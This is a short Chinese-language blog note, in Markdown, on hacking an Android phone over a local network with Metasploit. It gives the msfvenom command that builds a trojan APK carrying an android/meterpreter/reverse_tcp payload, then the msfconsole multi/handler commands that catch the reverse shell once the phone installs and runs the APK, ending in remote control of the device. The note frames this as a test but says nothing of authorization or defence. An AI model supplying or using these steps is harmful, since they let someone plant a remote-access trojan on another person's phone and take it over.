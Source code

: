 ```yaml
---
title: 【笔记】msf 黑入安卓系统
categories:
  - 网络安全
date: 2020-01-10 17:29:40
---
```


## 前言

使用`msf`工具黑入手机安卓系统（局域网）

<!-- more -->

## 准备工作

- 安卓手机

- [msf](https://feiju12138.github.io/2019/11/16/安装配置Metasploit-Framework/)

## 开始测试

### 制作木马

#### 查看本机ip地址

``` sh
ifconfig
```

#### 利用msf制作安卓木马

> `<ip_address>`：本机局域网ip地址
> `<port>`：自定义端口号，用于监听木马程序
> `<name>`：安装包名称

``` sh
msfvenom -p android/meterpreter/reverse_tcp LHOST=<ip_address> LPORT=<port> R> ~/Downloads/<name>.apk
```

### 启动msf监听木马程序

``` sh
msfconsole 
use multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST <ip_address>
set LPORT <port>
exploit
```

### 启动木马程序

- 安卓机和本机在同一局域网，安装并启动木马程序

- 本机返回`Meterpreter session 1 opened`，监听成功

![01.png](/images/20200110172940/01.png)

### 对手机进行远程操作

- 查看帮助

``` sh
meterpreter > help
```

## 完成

- 成功黑入后可对手机进行远程操作

- 展示三张成功黑入截图，留作纪念

![02.png](/images/20200110172940/02.png)

![03.png](/images/20200110172940/03.png)

![04.png](/images/20200110172940/04.png)

## 后记

- 本机返回`Meterpreter session 1 closed`，监听程序退出

## 参考文献

[哔哩哔哩——Hai_Dog](https://www.bilibili.com/video/av16375329/?spm_id_from=trigger_reload)
[哔哩哔哩——你会忘了我](https://www.bilibili.com/video/av33571463/?spm_id_from=333.788.videocard.0)

